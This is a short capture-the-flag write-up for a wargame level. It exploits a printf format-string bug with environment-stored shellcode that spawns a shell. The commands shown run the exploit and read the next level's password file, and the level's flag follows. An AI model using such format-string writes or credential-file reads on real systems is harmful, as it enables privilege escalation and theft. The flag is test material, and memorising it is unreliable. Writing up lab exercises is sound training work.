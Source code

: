## Level 05
## Source Code
![level05.png](level05.png)
## Walkthrough
- We reverse the binary through ghidra.
- There is a vulnerable `printf` after a `touper` on all char of the string.
- We generate a shell that will just call `system("/bin/sh")` and export it in the env.
- In a payload, we use a combination of `%yx` to print y spaces and `%x$n` to write the number of char print on the x offset.
## Answer
    export SHELLCODE=$(python /tmp/generate_shellcode.py)
    cat /tmp/payload - | ./level05
    cat /home/users/level06/.pass
## Flag
    h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq